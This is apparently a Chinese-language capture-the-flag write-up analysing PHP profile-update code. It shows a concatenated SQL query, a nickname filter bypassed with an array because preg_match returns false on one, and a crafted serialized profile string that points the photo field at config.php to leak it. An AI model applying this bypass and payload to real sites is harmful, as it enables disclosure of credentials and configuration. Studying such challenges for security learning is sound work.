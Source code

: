 ```php
public function select($table, $where, $ret = '*') {
		$sql = "SELECT $ret FROM $table WHERE $where";
		$result = mysql_query($sql, $this->link);
		return mysql_fetch_object($result);
	}
```

发现这里读取数据库中的信息进行反序列化，尝试在写入的时候，利用序列化的漏洞，构造序列化字串。在update.php中发现下列过程

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)#注意，这里进行了过滤！
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));
		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
```

这个对于nickname的过滤可以使用数组进行绕过。因为preg_match(数组)会返回false。自己搭建环境测试一下

```php
<?php
error_reporting(E_ALL);
class profile{
	var $phone = "11111111111";
	var $email = "1@qq.com";
	var $nickname;
	var $photo = "config.php";

	function setNickname($name){
		$this->nickname = $name;
	}

};
$a = new profile;
$b[] = '';
$a -> setNickname($b);
echo(serialize($a));
```

我们想构造

`O:7:"profile":4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"1@qq.com";s:8:"nickname";a:1:{i:0;s:0:"";}s:5:"photo";s:10:"config.php";} `
